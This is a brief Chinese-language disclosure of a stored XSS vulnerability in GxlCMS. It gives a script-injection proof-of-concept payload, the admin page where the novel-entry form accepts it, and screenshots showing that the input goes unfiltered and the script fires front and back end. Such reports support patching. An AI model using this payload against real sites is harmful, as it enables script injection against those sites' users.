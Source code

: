 






# GxlCMS 储存xss漏洞

漏洞POC

`123"123>undefined<script>alert(12)</script>`

漏洞位置

​       在`添加小说数据界面`可以输入POC导致XSS触发

http://127.0.0.1/gxl/index.php?s=Admin-Index

![image](http://wx1.sinaimg.cn/mw690/0060lm7Tly1g0s0t0zn96j30qc0fgjrw.jpg)

漏洞分析

![image](http://wx2.sinaimg.cn/mw690/0060lm7Tly1g0s0t0zvhvj30lt0aswfs.jpg)

![image](http://wx1.sinaimg.cn/mw690/0060lm7Tly1g0s0t0zwrcj30yr0aa0tn.jpg)

发现未对代码进行过滤

漏洞证明

![image](http://wx2.sinaimg.cn/mw690/0060lm7Tly1g0s0t1034ej31700d1wgf.jpg)

前台后台均可触发XSS
产品官网
http://www.gxlcms.com
